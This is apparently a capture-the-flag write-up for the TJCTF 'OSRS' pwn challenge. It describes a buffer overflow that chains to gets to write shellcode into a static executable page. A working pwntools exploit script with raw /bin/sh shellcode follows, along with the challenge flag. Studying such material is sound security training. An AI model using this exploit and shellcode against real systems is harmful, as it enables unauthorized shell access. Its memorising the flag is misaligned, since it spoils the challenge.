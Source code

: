 # OSRS
Pwn, 50

>  Written by KyleForkBomb
>  My friend keeps talking about Old School RuneScape. He says he made a service to tell you about trees. I don't know what any of this means but this system sure looks old! It has like zero security features enabled...
>  nc p1.tjctf.org 8006

This pretty standard buffer overflow with executable memory. We ROP to `gets` to place shellcode in an `rwx` page with a static address. We then return to that address, executing `/bin/sh` shellcode.

```py
from pwn import *

gets = 0x80483e0
data = 0x8049ea0

#p = process("./osrs")
#gdb.attach(p)
p = remote("p1.tjctf.org", 8006)
p.sendline("A"*256+"B"*16+p32(gets)+p32(data)+p32(data))
p.sendline("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
p.interactive()
```

Flag: `tjctf{tr33_c0de_in_my_she115}`